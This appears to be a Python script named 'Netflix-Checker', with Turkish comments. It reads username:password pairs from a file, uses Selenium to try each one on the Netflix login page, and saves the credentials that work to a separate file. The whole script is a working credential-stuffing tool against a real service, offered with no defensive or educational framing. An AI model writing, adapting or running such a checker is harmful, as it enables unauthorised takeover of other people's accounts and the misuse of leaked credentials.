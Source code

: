 "# Netflix-Checker
import os
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from colorama import Fore, Style



# Dosya varlığını kontrol et ve varsa kullanıcı adı ve şifreyi oku
with open('hesaplar.txt', 'r') as file:
    for line in file:
        username, password = line.strip().split(':')
        print(f"Kullanıcı adı: {username}")

        # Webdriver'ı başlat ve giriş sayfasına git
        browser = webdriver.Chrome()
        browser.get("https://www.netflix.com/tr/login")

        # Bekleyiciyi ayarla
        wait = WebDriverWait(browser, 10)

        # Kullanıcı adı ve şifrenizi girin ve giriş yapın
        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'input[name="userLoginId"]'))).send_keys(username)
        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'input[name="password"]'))).send_keys(password)
        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'button[type="submit"]'))).click()

        try:
            # Profil seçme sayfasının yüklenmesini bekle
            wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, '.profile-icon')))
            print(Fore.GREEN + f"Giriş başarılı: {username}" + Style.RESET_ALL)
            # Başarılı hesapları ayrı bir dosyaya kaydet
            with open('basarili_hesaplar.txt', 'a') as f:
                f.write(f"{username}:{password}\n")
        except:
            # Başarısız hesapları ayrı bir dosyaya kaydet
            print(Fore.RED + f"Giriş başarısız: {username}" + Style.RESET_ALL)
            with open('basarisiz_hesaplar.txt', 'a') as f:
                f.write(f"{username}:{password}\n")
        finally:
            # Tarayıcıyı kapat
            browser.quit()

"
